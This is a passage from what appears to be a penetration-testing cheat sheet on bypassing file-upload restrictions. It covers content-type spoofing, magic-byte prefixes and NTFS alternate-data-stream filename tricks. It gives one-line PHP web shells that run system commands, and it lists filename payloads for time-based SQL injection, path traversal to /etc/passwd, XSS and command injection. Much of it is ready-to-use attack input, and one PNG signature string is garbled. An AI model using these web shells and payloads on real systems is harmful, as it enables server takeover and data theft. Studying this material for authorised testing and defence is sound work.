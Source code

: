 * Content-Type wordlist: [SecLists/web-all-content-types.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt)

    ```cs
    text/php
    text/x-php
    application/php
    application/x-php
    application/x-httpd-php
    application/x-httpd-php-source
    ```

* Set the `Content-Type` twice, once for unallowed type and once for allowed.

[Magic Bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) - Sometimes applications identify file types based on their first signature bytes. Adding/replacing them in a file might trick the application.

* PNG: `\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[`
* JPG: `\xff\xd8\xff`
* GIF: `GIF87a` OR `GIF8;`

**File Encapsulation**:

Using NTFS alternate data stream (ADS) in Windows.
In this case, a colon character ":" will be inserted after a forbidden extension and before a permitted one. As a result, an empty file with the forbidden extension will be created on the server (e.g. "`file.asax:.jpg`"). This file might be edited later using other techniques such as using its short filename. The "::$data" pattern can also be used to create non-empty files. Therefore, adding a dot character after this pattern might also be useful to bypass further restrictions (.e.g. "`file.asp::$data.`")

**Other Techniques**:

PHP web shells don't always have the `<?php` tag, here are some alternatives:

* Using a PHP script tag `<script language="php">`

    ```html
    <script language="php">system("id");</script>
    ```

* The `<?=` is shorthand syntax in PHP for outputting values. It is equivalent to using `<?php echo`.

    ```php
    <?=`$_GET[0]`?>
    ```

### Filename Vulnerabilities

Sometimes the vulnerability is not the upload but how the file is handled after. You might want to upload files with payloads in the filename.

* Time-Based SQLi Payloads: e.g. `poc.js'(select*from(select(sleep(20)))a)+'.extension`
* LFI/Path Traversal Payloads:  e.g. `image.png../../../../../../../etc/passwd`
* XSS Payloads e.g. `'"><img src=x onerror=alert(document.domain)>.extension`
* File Traversal e.g. `../../../tmp/lol.png`
* Command Injection e.g. `; sleep 10;`
